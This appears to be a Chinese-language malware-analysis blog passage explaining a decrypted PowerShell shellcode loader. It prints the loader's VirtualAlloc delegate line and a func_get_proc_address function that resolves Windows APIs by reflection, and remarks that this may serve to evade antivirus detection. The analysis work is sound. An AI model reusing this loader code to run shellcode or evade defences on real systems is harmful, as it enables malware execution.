 解密之后的执行逻辑一共就五句话：

第一句：

`$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))`

这里是调用了Marshal对象的GetDelegateForFunctionPointer方法，传入了两个参数：

参数一：`func_get_proc_address kernel32.dll VirtualAlloc`

参数二：`func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))`

这里其实就是调用了上面在这段代码前定义的两个方法：

第一个方法：func\_get\_proc\_address

其实现如下：

```php
function func\_get\_proc\_address {  
    Param ($var\_module, $var\_procedure)       
    $var\_unsafe\_native\_methods = (\[AppDomain\]::CurrentDomain.GetAssemblies() | Where-Object { $\_.GlobalAssemblyCache -And $\_.Location.Split('\\\\')\[-1\].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')  
    $var\_gpa = $var\_unsafe\_native\_methods.GetMethod('GetProcAddress', \[Type\[\]\] @('System.Runtime.InteropServices.HandleRef', 'string'))  
    return $var\_gpa.Invoke($null, @(\[System.Runtime.InteropServices.HandleRef\](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var\_unsafe\_native\_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var\_module)))), $var\_procedure))  
}
```

如上代码，其实从函数名称里面我们就可以大概看出来这个函数干了啥：应该是获取了某个procedure的地址和winapi kernel32.dll里面的GetProAddress类似，这里我们简单来看下这些代码干了啥：

该函数传入两个参数，一个是module，一个是procedure，然后第一句是从当前系统程序集里面找到System.dll并调用GetType获取其UnsafeNatibeMethods对象：

`$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')`

如下的第二句：通过上面获取的UnsafeNatibeMethods对象调用GetMethod来获取GetProAddress的句柄，其实就是指针，也就是在.net（powershell是基于.net的）中的非托管函数指针。

`$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))`

如下最后一句：最后一句非常长，其实就是一个反射调用，先是和上面同样的方式通过`$var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module))`拿到传入module的句柄，然后这个反射调用就等价于调用了GetProcAddress（hMoudle，lpProcName），hMoudle是传入的参数module，lpProcName是传入的参数lpProcName。

```php
return $var\_gpa.Invoke($null, @(\[System.Runtime.InteropServices.HandleRef\](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var\_unsafe\_native\_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var\_module)))), $var\_procedure))
```

所以总结下：这个func\_get\_proc\_address函数的功能就是获取传入dll里面对应传入函数名的地址。和win api里面Kernel32.dll里面GetProcAddress一样，按笔者的理解，其实这里就是c#中如何去实现调用GetProcAddress，只不过这里是通过System.dll这条路过去的，应该还有其他办法，这种可能是一种免杀的手段（包括这里通过反射调用啥的）。
